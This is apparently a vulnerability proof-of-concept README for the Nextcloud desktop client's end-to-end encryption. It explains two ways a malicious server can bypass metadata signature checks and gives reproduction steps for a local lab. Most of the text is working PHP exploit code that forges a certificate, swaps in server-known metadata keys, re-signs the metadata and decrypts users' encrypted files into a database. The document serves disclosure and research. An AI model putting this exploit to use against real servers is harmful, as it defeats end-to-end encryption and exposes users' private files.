



# Nextcloud X-E2EE-SIGNATURE Bypass POC

## Summary
- During normal operation of Nextcloud's E2EEv2 protocol, clients
cryptographically sign folder-metadata before uploading to the server. This
ensures the metadata has not been tampered with when it is re-fetched for the
purposes of file-sharing or syncing changes.

- The signature verification is performed by the client in
[`foldermetadata.cpp:177`](https://github.com/nextcloud/desktop/blob/d5c4c7e665192bdf9946d69f0368d8ccc94a5a65/src/libsync/foldermetadata.cpp#L177)
when the fetched metadata is initialized. However there are two ways a malicious server can bypass this check:

    - They can reply with an empty `X-E2EE-SIGNATURE` response header. Since the
	header is empty, the condition at
       [`foldermetadata.cpp:168`](https://github.com/nextcloud/desktop/blob/d5c4c7e665192bdf9946d69f0368d8ccc94a5a65/src/libsync/foldermetadata.cpp#L168)
       means the signature verification does not occur, and the altered metadata
       is accepted by the client.

    - They can inject a certificate into the `users` JSON array, and then sign
      the metadata with that certificate. Since `CMS_NO_SIGNER_CERT_VERIFY` is
	  passed at
      [`clientsideencryption.cpp:941`](https://github.com/nextcloud/desktop/blob/d5c4c7e665192bdf9946d69f0368d8ccc94a5a65/src/libsync/clientsideencryption.cpp#L941),
      the signing certificate is not chain-verified and the client only checks
      that the signing certificate is present in the `certificatePems` vector
      ([`clientsideencryption.cpp:955-971`](https://github.com/nextcloud/desktop/blob/d5c4c7e665192bdf9946d69f0368d8ccc94a5a65/src/libsync/clientsideencryption.cpp#L955-L971))
      which is controlled by the server.

- In this POC we will demonstrate the latter method as it is the more difficult
  method to implement, however both have been tested to work.

- A malicious server can use this bypass to provide clients with metadata keys
  known to the server. Clients will then use this metadata key to encrypt
  subsequent files, allowing the server to decrypt and read files in end-to-end
  encrypted folders. 
  
  > This way of exploiting the signature bypass is based on an attack found by
  Albrecht, Backendal, Coppola, Paterson in
  2023 (https://eprint.iacr.org/2024/546) on a previous version of the E2EE protocol.
  > Indeed the authentication of metadata keys was a mitigation strategy for the
  > attack (see section 5.1 of the linked paper).


## Steps to reproduce

1. Clone this repository, and open in VS Code using the DevContainer extension.
   A DevContainer based on the one in the [Nextcloud server
   repository](https://github.com/nextcloud/server) has been provided with the
   following changes:
    - For debugging purposes, a `mitmproxy` reverse proxy is present on port `7001`. The web UI can be accessed on port `7002`.
    - On installation of the Nextcloud server, the `encryption` and `end_to_end_encryption` apps will also be enabled, and an account with username and password `sharer` will be created.

2. Once the server is up, connect to it at `http://localhost:8000` (or through the reverse proxy at `http://localhost:7001`) using the latest client. Currently I have tested this on the v3.13.2 AppImage.

```shell
sha256sum Nextcloud-3.13.2-x86_64.AppImage 
92ec0a5260f6260fa8ce92acdb022c441f0efbf6b57cc96d75ac608ccb4c4ee2  Nextcloud-3.13.2-x86_64.AppImage
```

3. When prompted, log in with username `sharer` and password `sharer`. Accept the default syncing options (creating a directory `~/Nextcloud/` with `welcome.txt` inside it), and set up end to end encryption in the Nextcloud client settings.

4. Create a new folder `encrypted_folder` inside the `~/Nextcloud` directory. In the Nextcloud client settings, mark this folder as encrypted.



5. Inside `Nextcloud/encrypted_folder`, create a simple text file and wait for it to sync.

```shell
# ~/Nextcloud/encrypted_folder
$ echo 'this should be encrypted' > file.txt
```

6. Log into the Postgres database in Adminer at `http://localhost:8080/` using credentials:

    - Username: `postgres`
    - Password: `postgres`
    - Database: `postgres`

and navigate to the `oc_e2e_encryption_metadata` and `oc_e2e_encryption_decrypted` tables. You should be able to see the decrypted metadata and file contents in the clear.




> The screenshots above had a couple extra test files created and deleted, so will be slightly different to what you see

## Technical Details

This repo is based off the [Nextcloud server](https://github.com/nextcloud/server) and [end to end encryption app](https://github.com/nextcloud/end_to_end_encryption) repos. Most of the code remains unchanged, so I'll try to give an explanation of what things have been changed.

Firstly, the `getMetadata` method of `MetaDataStorage.php` has been altered to
tamper with the metadata returned by calling into a new `getFakeUserMetadata`
method.
```diff
--- original/lib/MetaDataStorage.php	2024-07-11 23:38:16.105826088 +1000
+++ nc-server/apps/end_to_end_encryption/lib/MetaDataStorage.php	2024-07-11 21:05:37.734565037 +1000
@@ -68,14 +82,12 @@
 			return $legacyFile->getContent();
 		}
 
-		$folderName = $this->getFolderNameForFileId($id);
-		$folder = $this->appData->getFolder($folderName);
+		$metaData = $this->getFakeUserMetadata($id);
 
-		return $folder
-			->getFile($this->metaDataFileName)
-			->getContent();
+		return $metaData;
 	}
```

In the `getFakeUserMetadata` method, we first inject a chosen certificate into the `users` JSON key. This is to facilitate signature forgery.

```php
	private function getFakeUserMetadata(int $id): string {
		$folderName = $this->getFolderNameForFileId($id);
		$folder = $this->appData->getFolder($folderName);

		$metaData = json_decode($folder->getFile($this->metaDataFileName)->getContent());

		if (is_null($metaData->users)) {
			/* This is a non-root metadata. Return as normal*/
			return json_encode($metaData);
		}
				
		/* 
		 * Step 1: Inject a fake public key into the metadata
		 * This can be used to forge a signature for the response.
		 */
		$found = false;
		foreach ($metaData->users as $userData) {
			if ($userData->userId === $this->fakeUserId) {
				$found = true;
				break;
			}
		}
		if (!$found) {
			try {
				$certificateFile = $folder->getFile($this->fakeUserPublicCertificateFileName);
				$privateKeyFile = $folder->getFile($this->fakeUserPrivateKeyFileName);
				$pemCertificate = $certificateFile->getContent();
			} catch (NotFoundException $e) {
				/* Create a new private key for the fake user */
				$privateKey = openssl_pkey_new();
				openssl_pkey_export($privateKey, $privateKeyPem);
				$folder->newFile($this->fakeUserPrivateKeyFileName)->putContent($privateKeyPem);

				/* Client is expecting a certificate for the public key */
				$csr = openssl_csr_new(array(), $privateKey);
				$certificate = openssl_csr_sign($csr, null, $privateKey, 365);
				openssl_x509_export($certificate, $pemCertificate);
				$folder->newFile($this->fakeUserPublicCertificateFileName)->putContent($pemCertificate);
			}

			$newUser = new \stdClass();
			$newUser->certificate = $pemCertificate;
			array_push($metaData->users, $newUser); 
		}
```
Then, since we have access to the client's public key, we can encrypt our own
keys and replace the encrypted metadata keys with keys that we control.
```php
		/* 
	 	 * Step 2: Change all the metadata keys to keys that we control.
		 */
		foreach ($metaData->users as $userData) {
			$publicKey = PublicKeyLoader::load($userData->certificate)->withHash('sha256')->withMGFHash('sha256');
			$fakeEncryptedMetadataKey = $publicKey->encrypt($this->fakeMetadataKey);
			$userData->encryptedMetadataKey = base64_encode($fakeEncryptedMetadataKey);
		}	

		/* We need to set userId after setting encryptedMetadataKey, as Qt will serialize json keys in alphabetical order */
		if (!is_null($newUser)) {
			$newUser->userId = $this->fakeUserId;
		}
```
Since we've tampered with the metadata keys, we will need to change to ciphertext too. If we've already run the attack successfully, we will have access to real metadata which we can re-encrypt. Otherwise we will initialize an empty metadata object and encrypt that.
```php
		/* 
		 * Step 3: Replace the encrypted metadata with one that can be decrypted under the new key.
		 * Then as long as we don't trigger a downsync, the next PUT will 
		 * contain metadata encrypted with a key known to us.
		 */
		$fakeMetadata = new \stdClass();
		$fakeMetadata->folders = new \stdClass();
		$fakeMetadata->files = new \stdClass();

		try {
			$metadataEntities = $this->metadataMapper->getByFolderId($id);
			foreach ($metadataEntities as $metadataEntity) {
				$encryptedFilename = $metadataEntity->getEncryptedFilename();
				if ($metadataEntity->isDirectory()) {
					$fakeMetadata->folders->$encryptedFilename = $metadataEntity->toJson();
				} else {
					$fakeMetadata->files->$encryptedFilename = $metadataEntity->toJson();
				}
			}
		} catch (DoesNotExistException $ex) {
			/* Return empty metadata */
		}

		$fakeMetadata->counter = $this->getCounter($id);
		/* keyChecksums needs to contain the SHA256 of the decrypted metadata key (in hex) */
		$fakeMetadata->keyChecksums = array();
		array_push($fakeMetadata->keyChecksums, hash("sha256", $this->fakeMetadataKey));

		/* Then the AES-128-GCM ciphertext of the gzipped json object goes into the response */
		$plaintext = gzencode(json_encode($fakeMetadata));
		$nonce = openssl_random_pseudo_bytes(16);
		$ciphertext = openssl_encrypt($plaintext, "aes-128-gcm", $this->fakeMetadataKey, OPENSSL_RAW_DATA, $nonce, $authenticationTag);

		$metaData->metadata->authenticationTag = base64_encode($authenticationTag);
		$metaData->metadata->ciphertext = base64_encode($ciphertext . $authenticationTag) . "|" . base64_encode($nonce);
		$metaData->metadata->nonce = base64_encode($nonce);

		$metaData = json_encode($metaData, JSON_UNESCAPED_SLASHES);
		
		/* Ensure whatever metadata we return syncs up with what is stored on disk */
		$folder->getFile($this->metaDataFileName)->putContent($metaData);
```
Finally, we take the tampered JSON payload and re-sign it with our certificate. An alternative would also be to use an empty signature here.
```php
		/* Note: We only need to forge a signature for root metadata */
		$certificateFile = $folder->getFile($this->fakeUserPublicCertificateFileName);
		$privateKeyFile = $folder->getFile($this->fakeUserPrivateKeyFileName);

		$pemCertificate = $certificateFile->getContent();
		$privateKey = openssl_pkey_get_private($privateKeyFile->getContent());
		
		$signatureTempFile = tempnam(sys_get_temp_dir(), "signature");
		$metadataTempFile = tempnam(sys_get_Temp_dir(), "metadata");
		file_put_contents($metadataTempFile, base64_encode($metaData));
		if (openssl_cms_sign($metadataTempFile, $signatureTempFile, $pemCertificate, $privateKey, array(), 0, OPENSSL_ENCODING_DER)) {
			$signature = base64_encode(file_get_contents($signatureTempFile));
			$this->writeSignature($folder, $this->metaDataSignatureFileName, $signature);
		} else {
			$this->writeSignature($folder, $this->metaDataSignatureFileName, "");
		}
		unlink($signatureTempFile);
		unlink($metadataTempFile);

		return $metaData;
	}
```
Once the metadata has been tampered with, the client will use our encryption key to encrypt any new metadata. On receipt of any new metadata, we attempt to decrypt it using our key.
```diff
--- original/lib/Controller/MetaDataController.php	2024-07-11 23:38:16.102492800 +1000
+++ nc-server/apps/end_to_end_encryption/lib/Controller/MetaDataController.php	2024-07-11 20:54:06.794689137 +1000
@@ -164,9 +170,11 @@
 		}
 
 		if ($this->lockManager->isLocked($id, $e2eToken, null, true)) {
 			throw new OCSForbiddenException($this->l10n->t('You are not allowed to edit the file, make sure to first lock it, and then send the right token'));
 		}
 
+		$this->metaDataStorage->decryptMetaData($id, $metaData);
+
 		try {
 			$this->metaDataStorage->updateMetaDataIntoIntermediateFile($this->userId, $id, $metaData, $e2eToken, $signature);
 		} catch (MissingMetaDataException $e) {
```
```php
	public function decryptMetaData(int $id, string $metaData) {
		$this->verifyFolderStructure();

		$folderName = $this->getFolderNameForFileId($id);
		$folder = $this->appData->getFolder($folderName);

		/* Try to decrypt the incoming metadata with our fake key */
		$metaData = json_decode($metaData);
		$authenticationTag = base64_decode($metaData->metadata->authenticationTag);
		$ciphertextAndTag = base64_decode(explode("|", $metaData->metadata->ciphertext)[0]);
		$ciphertext = substr($ciphertextAndTag, 0, -16);
		$nonce = base64_decode($metaData->metadata->nonce);
		$gzippedPlaintext = openssl_decrypt($ciphertext, "aes-128-gcm", $this->fakeMetadataKey, OPENSSL_RAW_DATA, $nonce, $authenticationTag);

		/* If we succeed, store the decrypted metadata */
		if ($gzippedPlaintext) {
			$decodedMetadata = json_decode(gzdecode($gzippedPlaintext));
			foreach ($decodedMetadata->files as $encryptedFilename => $file) {
				try {
					$metadataEntity = $this->metadataMapper->getByFolderIdAndEncryptedFilename($id, $encryptedFilename);
					$metadataEntity->setEncryptedFilename($encryptedFilename);
					$metadataEntity->setKey($file->key);
					$metadataEntity->setKey($file->key);
					$metadataEntity->setNonce($file->nonce);
					$metadataEntity->setAuthenticationTag($file->authenticationTag);
					$metadataEntity->setFilename($file->filename);
					$this->metadataMapper->update($metadataEntity);
				} catch (DoesNotExistException $ex) {
					$newMetadata = new Metadata();
					$newMetadata->setFolderId($id);
					$newMetadata->setEncryptedFilename($encryptedFilename);
					$newMetadata->setKey($file->key);
					$newMetadata->setNonce($file->nonce);
					$newMetadata->setAuthenticationTag($file->authenticationTag);
					$newMetadata->setFilename($file->filename);
					$this->metadataMapper->insert($newMetadata);
				}
			}
			foreach ($decodedMetadata->folders as $encryptedFilename => $filename) {
				try {
					$metadataEntity = $this->metadataMapper->getByFolderIdAndEncryptedFilename($id, $encryptedFilename);
					$metadataEntity->setFilename($filename);
					$this->metadataMapper->update($metadataEntity);
				} catch (DoesNotExistException $ex) {
					$newMetadata = new Metadata();
					$newMetadata->setFolderId($id);
					$newMetadata->setEncryptedFilename($encryptedFilename);
					$newMetadata->setFilename($filename);
					$this->metadataMapper->insert($newMetadata);
				}
			}
		}
	}
```

Finally, we create a listener for when the new file gets created, and try to decrypt using the file keys found in the decrypted metadata.
```php
class NodeCreatedListener implements IEventListener {
	private MetadataMapper $metadataMapper;
	private PlaintextMapper $plaintextMapper;

	public function __construct(MetadataMapper $metadataMapper, PlaintextMapper $plaintextMapper) {
		$this->metadataMapper = $metadataMapper;
		$this->plaintextMapper = $plaintextMapper;
	}

	public function handle(Event $event): void {
		if (!($event instanceof NodeCreatedEvent)) {
			return;
		}

		$node = $event->getNode();
		$encryptedFilename = preg_replace('/\.e2e-to-save$/', '', $node->getName());
		if ($node instanceof File) {
			$curr = $node;
			while (!($curr instanceof Root)) {
				$curr = $curr->getParent();
				$id = $curr->getId();

				try {
					$metadata = $this->metadataMapper->getByFolderIdAndEncryptedFilename($id, $encryptedFilename);
				} catch (DoesNotExistException $ex) {
					continue;
				}

				/* Metadata found: try to decrypt */
				$key = base64_decode($metadata->getKey());
				$nonce = base64_decode($metadata->getNonce());
				$authenticationTag = base64_decode($metadata->getAuthenticationTag());
				$ciphertext = substr($node->getContent(), 0, -16);
				$plaintext = openssl_decrypt($ciphertext, "aes-128-gcm", $key, OPENSSL_RAW_DATA | OPENSSL_ZERO_PADDING, $nonce, $authenticationTag);

				if ($plaintext) {
					/* Decryption successful. Store in DB */
					try {
						$plaintextEntity = $this->plaintextMapper->getById($metadata->getId());
						$plaintextEntity->setPlaintext($plaintext);
						$this->plaintextMapper->update($plaintextEntity);
					} catch (DoesNotExistException $ex) {
						$plaintextEntity = new Plaintext();
						$plaintextEntity->setId($metadata->getId());
						$plaintextEntity->setPlaintext($plaintext);
						$this->plaintextMapper->insert($plaintextEntity);
					}
					break;
				}
			}
		}
	}
}
```

